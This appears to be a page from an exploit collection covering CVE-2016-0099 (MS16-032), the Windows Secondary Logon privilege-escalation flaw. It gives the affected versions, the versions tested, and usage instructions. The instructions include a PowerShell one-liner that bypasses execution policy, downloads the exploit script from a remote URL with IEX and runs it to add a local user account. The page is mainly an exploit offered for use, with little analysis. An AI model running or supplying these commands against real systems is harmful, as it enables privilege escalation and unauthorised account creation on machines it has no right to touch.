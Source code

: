 ### CVE-2016-0099

#### Describe

The Secondary Logon Service in Microsoft Windows Vista SP2, Windows Server 2008 SP2 and R2 SP1, Windows 7 SP1, Windows 8.1, Windows Server 2012 Gold and R2, Windows RT 8.1, and Windows 10 Gold and 1511 does not properly process request handles, which allows local users to gain privileges via a crafted application, aka "Secondary Logon Elevation of Privilege Vulnerability."

#### ImpactVersion

| Product             | CPU Architecture | Version | Update | Tested             |
| ------------------- | ---------------- | ------- | ------ | ------------------ |
| Windows 10          |                  |         |        |                    |
| Windows 10          |                  | 1511    |        |                    |
| Windows 7           |                  |         | SP1    | &#10004; |
| Windows 8.1         |                  |         |        |                    |
| Windows Rt 8.1      |                  |         |        |                    |
| Windows Server 2008 |                  |         | SP2    | &#10004; |
| Windows Server 2008 |                  | R2      | SP1    | &#10004; |
| Windows Server 2012 |                  |         |        |                    |
| Windows Server 2012 |                  | R2      |        |                    |
| Windows Vista       |                  |         | SP2    |                    |

#### Utilization

> Target system requires more than 2 CPU cores

PS script test, perform the following command in Windows Server 2008 R2 SP1 X64

```
Import-Module .\Invoke-MS16-032.ps1
Invoke-MS16-032
```

Can also add an account remotely

```
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Ridter/Pentest/master/powershell/MyShell/Invoke-MS16-032.ps1');Invoke-MS16-032 -Application cmd.exe -commandline '/c net user ascotbe test6666 /add'"
```

GIF map is as follows

![6](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2016-0099_win2008_x64_ps.gif)

Test all the versions of X64 and X86 using the EXE file, which only records Windows 7 SP1 X64 version

![7](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2016-0099_win7_x64.gif)


